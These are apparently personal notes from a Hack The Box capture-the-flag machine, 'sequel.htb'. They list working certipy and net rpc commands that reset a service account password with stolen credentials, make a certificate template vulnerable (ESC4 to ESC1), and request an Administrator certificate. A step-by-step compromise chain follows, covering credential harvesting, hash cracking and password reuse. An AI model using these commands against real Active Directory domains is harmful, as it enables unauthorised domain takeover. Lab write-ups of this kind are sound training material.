
# IP
10.10.11.51

# Hostname
sequel.htb

# Other Notes



```bash


net rpc password "ca_svc" "Password123" -U "sequel.htb"/"ryan"%"WqSZAF6CysDQbGb3" -S "dc01.sequel.htb"

certipy-ad find -vulnerable -dc-ip '10.10.11.51' -u 'ca_svc' -p 'Password123' -stdout

# Make template vuln to ESC1
certipy-ad template -username 'ca_svc@sequel.htb' -password 'Password123' -template DunderMifflinAuthentication -save-old

# Exploit ESC1
certipy-ad req -username 'ca_svc@sequel.htb' -password 'Password123' -ca 'sequel-DC01-CA' -target 'dc01.sequel.htb' -template 'DunderMifflinAuthentication' -upn 'Administrator@sequel.htb' -dns 'dc01.sequel.htb'

# Restore config
certipy-ad template -username 'ca_svc@sequel.htb' -password 'Password123' -template ESC4-Test -configuration ESC4-Test.json

certipy auth -pfx ADMIN.PFS -dc-ip 10.10.11.51
```
# Steps to Compromise:
1. got credentials in smb using rose (accounting department)
2. use `sa` user to grab sql_svc hash
3. decrypt hash to get sql_svc password
4. ryan has same password as sql_svc
5. ryan has writeowner perm on ca_svc
	1. change pw of ca_svc
6. ca_svc creds detect ESC4
	1. get admin cert via ESC4